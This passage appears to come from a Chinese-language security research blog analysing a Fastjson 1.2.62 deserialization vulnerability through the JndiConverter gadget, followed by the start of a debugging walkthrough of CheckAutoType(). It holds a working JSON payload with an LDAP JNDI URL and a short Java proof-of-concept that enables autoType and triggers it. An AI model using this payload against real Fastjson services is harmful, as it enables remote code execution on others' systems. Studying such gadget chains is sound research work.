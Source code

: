 - 但是这个 `toObjectImpl()` 方法并不是 getter/setter 方法，也不是构造函数，我不太明白为什么会被调用，后面问了一下 Johnford 师傅，更明确了 Fastjson 漏洞利用的方式。

因为我们对 `JndiConverter` 这个类进行反序列化的时候，会自动调用它的构造函数，而它的构造函数里面调用了它的父类。所以我们反序列化的时候不仅能够调用 `JndiConverter` 这个类，还会去调用它的父类 `AbstractConverter`

然后在父类 `AbstractConverter` 中，呃，这里咋说呢；我最早是去找谁调用了 `JndiConverter#toObjectImpl()`，就找到了 `AbstractConverter#setAsText()`；也就是这里不是单纯的逆向思维，而是正向和逆向思维一起作用的。

![img](https://drun1baby.top/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/1262Chains.png)

所以这里我们的 payload 可以设置成这样

JSON

```
"{

\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\", 
\"AsText\":\"ldap://127.0.0.1:1234/ExportObject\"

}"
```

EXP 如下

JAVA

```
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.ParserConfig;  
import org.apache.xbean.propertyeditor.JndiConverter;  
  
public class EXP_1262 {  
    public static void main(String[] args) {  
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);  
 String poc = "{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\"," +  
                "\"AsText\":\"ldap://127.0.0.1:1234/ExportObject\"}";  
 JSON.parse(poc);  
 }  
}
```

![img](https://drun1baby.top/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/1262Success.png)

### 调试分析

- 我这里只分析开启 autoType 的，如果未开启 AutoType、未设置 expectClass 且类名不在内部白名单中，是不能恶意加载字节码的。

直接在 `CheckAutoType()` 函数上打上断点开始分析，函数位置：`com\alibaba\fastjson\parser\ParserConfig.java`

相比于之前版本调试分析时看的 `CheckAutoType()` 函数，这里新增了一些代码逻辑，这里大致说下，下面代码是判断是否调用 AutoType 相关逻辑之前的代码，说明如注释：

JAVA

```
if (typeName == null) {
          return null;
      }
 
// 限制了JSON中@type指定的类名长度
      if (typeName.length() >= 192 || typeName.length() < 3) {
          throw new JSONException("autoType is not support. " + typeName);
      }
 
// 单独对expectClass参数进行判断，设置expectClassFlag的值
// 当且仅当expectClass参数不为空且不为Object、Serializable、...等类类型时expectClassFlag才为true
      final boolean expectClassFlag;
      if (expectClass == null) {
          expectClassFlag = false;
```